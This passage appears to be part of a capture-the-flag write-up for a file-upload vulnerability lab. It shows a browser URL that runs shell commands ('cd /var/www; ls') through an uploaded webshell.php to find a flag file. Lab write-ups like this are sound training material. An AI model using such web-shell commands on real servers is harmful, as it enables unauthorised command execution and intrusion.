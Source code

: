 ![alt text](image-1.png#center)

after uploading the file, navigate to `/var/www` directory and list files and directory by typing the following command on the browser:

`http://shell.uploadvulns.thm/resources/webshell.php?cmd=cd%20/var/www;%20ls;`

![alt text](image-2.png#center)

As we can see, there's the flag.txt file.

![alt text](image-3.png#center)

